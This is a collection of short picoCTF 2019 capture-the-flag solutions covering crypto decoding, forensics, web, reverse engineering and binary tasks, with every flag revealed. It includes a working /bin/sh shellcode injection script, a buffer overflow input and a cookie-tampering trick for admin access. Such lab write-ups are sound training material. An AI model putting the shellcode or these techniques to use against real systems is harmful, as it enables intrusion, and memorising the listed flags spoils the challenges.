

# 2Warm (General)


python -c 'print bin(42)'

<details>
	<summary>Flag</summary>

picoCTF{101010}
</details>

# Glory of the Garden (Forensics)


strings garden.jpg | grep pico

<details>
	<summary>Flag</summary>

picoCTF{more_than_m33ts_the_3y30cAf8c6B}
</details>

# Insp3ct0r (Web)



Go to webpage, view source for first part
click mycss.css for part 2
and myjs.js for 3

<details>
	<summary>Flag</summary>

picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?5281bfe9}
</details>

# Numbers (General)


cyberchef 16 9 3 15 20 6 20 8 5 14 21 13 2 5 18 19 13 1 19 15 14
A1Z26 decoder
picotfthenumbersmason
```python
'picotf{thenumbersmason}'.upper()
```

<details>
	<summary>Flag</summary>

PICOCTF{THENUMBERSMASON}
</details>

# Handy Shellcode (Binary)


```python
#!/usr/bin/env python

from pwn import *

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
shellcode+= '\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

p = process('./vuln')
p.sendline(shellcode)
sleep(2)
p.sendline('cat flag.txt')
sleep(1)
print p.recv()
sleep(1)
p.close()
```

<details>
	<summary>Flag</summary>

picoCTF{h4ndY_d4ndY_sh311c0d3_6e960297}
</details>

# Practice Run 1 (Binary)


./run_this

<details>
	<summary>Flag</summary>

picoCTF{g3t_r3adY_2_r3v3r53}
</details>

# Unzip (Forensics)


Download zip

```bash
unzip flag.zip
eog flag.png
```
<details>
	<summary></summary>

picoCTF{unz1pp1ng_1s_3a5y}
</details>

# Vault-door-training (RE)


Download java file

```bash
strings VaultDoorTraining.java | less
```

<details>
	<summary>Flag</summary>

picoCTF{w4rm1ng_Up_w1tH_jAv4_10627c0a606}
</details>

# 13 (Crypto)


cvpbPGS{abg_gbb_onq_bs_n_ceboyrz}
lets plug it into cyberchef using rot 13

<details>
	<summary>Flag</summary>

picoCTF{not_too_bad_of_a_problem}
</details>

# Bases (General)


bDNhcm5fdGgzX3IwcDM1
cyberchef > base64 decoder

<details>
	<summary>Flag</summary>

picoCTF{l3arn_th3_r0p35}
</details>

# Easy1 (Crypto)


UFJKXQZQUNB
key = SOLVECRYPTO
cyberchef > vigenere

<details>
	<summary>Flag</summary>

picoCTF{CRYPTOISFUN}
</details>

# First Grep (General)


```bash
strings file | grep pico
```

<details>
	<summary>Flag</summary>

picoCTF{grep_is_good_to_find_things_5f0c3d9e}
</details>

# Overflow 0 (Binary)


```bash
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<details>
	<summary>Flag</summary>

picoCTF{3asY_P3a5y76feab88}
</details>

# Resources (General)


Navigate to the site, scroll down

<details>
	<summary>Flag</summary>

picoCTF{r3source_pag3_f1ag}
</details>

# Caesar (Crypto)


gvswwmrkxlivyfmgsrhvbcxzyz
cyberchef > rot22 (caesar)
crossingtherubicondrxytvuv

<details>
	<summary>Flag</summary>

picoCTF{crossingtherubicondrxytvuv}
</details>

# Dont Use Client Side (Web)


Open site, click source...interesting stuff below

```
if (checkpass.substring(0, split) == 'pico') {
      if (checkpass.substring(split*6, split*7) == '83b1') {
        if (checkpass.substring(split, split*2) == 'CTF{') {
         if (checkpass.substring(split*4, split*5) == 'ts_p') {
          if (checkpass.substring(split*3, split*4) == 'lien') {
            if (checkpass.substring(split*5, split*6) == 'lz_a') {
              if (checkpass.substring(split*2, split*3) == 'no_c') {
                if (checkpass.substring(split*7, split*8) == 'f}') {
                  alert("Password Verified")
```
Strip some junk off using sublime text magic

<details>
	<summary>Flag</summary>

picoCTF{no_clients_plz_a83b1f}	
</details>

# Logon (Web)


Load up burpesuite
change cookie admin=False to admin=True
<details>
	<summary>Flag</summary>

picoCTF{th3_c0nsp1r4cy_l1v3s_cb647acd}
</details>

# Strings It (General)


```bash
strings strings | grep pico
```
<details>
	<summary>Flag</summary>

picoCTF{5tRIng5_1T_d169bb92}
</details>


# Vault Door 1 (RE)


This challenge was very simple: reorder the lines
I wanted to write a script for this because im lazy so it ended up taking a bit longer(irony)

First I copied the password lines and made a new file called input.txt.
Then I wrote a python script to reorder the characters and print out the flag

```python
#!/usr/bin/env python

filepath = './input.txt'

def read(count):
	global flag
	with open(filepath) as fp:
		for line in fp.readlines():
			if '('+str(count)+')' in line:
				s = line.split("'")
				flag+=s[1]
				return True
if __name__ == '__main__':
	count = 0
	flag = ''
	while count < 32:
		if read(count):
			count+= 1
	print 'picoCTF{'+flag+'}'
```

<details>
	<summary>Flag</summary>

picoCTF{d35cr4mbl3_tH3_cH4r4cT3r5_82e029}
</details>

# Whats a Net Cat? (General)


connect with

```bash
nc 2019shell1.picoctf.com 4158
```

<details>
	<summary>Flag</summary>

picoCTF{nEtCat_Mast3ry_6c245b37}
</details>

# Where are the robots (Web)


Robot hints at robots.txt - Lets check it out

```
User-agent: *
Disallow: /8b71f.html
```

lets add that to our url: https://2019shell1.picoctf.com/problem/12267/8b71f.html

<details>
	<summary>Flag</summary>

 picoCTF{ca1cu1at1ng_Mach1n3s_8b71f}
</details>